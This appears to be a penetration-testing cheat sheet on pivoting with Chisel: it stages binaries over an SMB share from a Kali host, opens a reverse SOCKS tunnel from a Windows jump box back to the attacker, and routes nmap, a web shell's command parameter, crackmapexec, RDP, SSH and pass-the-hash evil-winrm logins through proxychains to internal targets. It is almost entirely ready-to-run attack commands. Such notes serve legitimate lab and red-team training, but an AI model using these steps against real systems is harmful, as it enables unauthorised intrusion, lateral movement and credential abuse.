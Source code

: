 # Port Forwarding with Chisel

## Config

Edit `/etc/proxychains4.conf` file

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```

Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86

```cmd
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64

```cmd
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```

## Kali <==> Windows JumpBox <==> Target

Kali - server

```bash
/opt/chisel/chisel server -p 8000 --reverse
```

Windows JumpBox - client

```cmd
.\chisel.exe client <Kali IP>:8000 R:socks
```

## Accessing

Access with nmap

- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans

```bash
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with curl

```bash
proxychains curl http://<Target IP>/shell.asp?cmd=whoami
```

or

```bash
proxychains curl --get \
  --data-urlencode 'cmd=whoami /priv' \
  http://<Target IP>/shell.asp
```

Access with mysql

```bash
proxychains mysql -h <Target IP> -u <user> -p
```

Access with crackmapexec

```bash
proxychains crackmapexec smb <Target IP> -u '<user>' -p '<pwd>'
```

Access with RDP

```bash
proxychains xfreerdp /v:<Target IP> /u:'<user>' /p:'<pwd>'
```

Access with ssh

```bash
proxychains ssh <user>@<Target IP>
```

Access with Evil-WimRM

```bash
proxychains evil-winrm -u '<domain>\<user>' -H '<NTLMHASH>' -i <Target IP>
```

Access with Firefox (using FoxyProxy)

![Firefox - FoxyProxy](images/proxychains_chisel_firefox.png)

Access with dbeaver

![dbeaver](images/proxychains_chisel_dbeaver.png)

## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)

## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)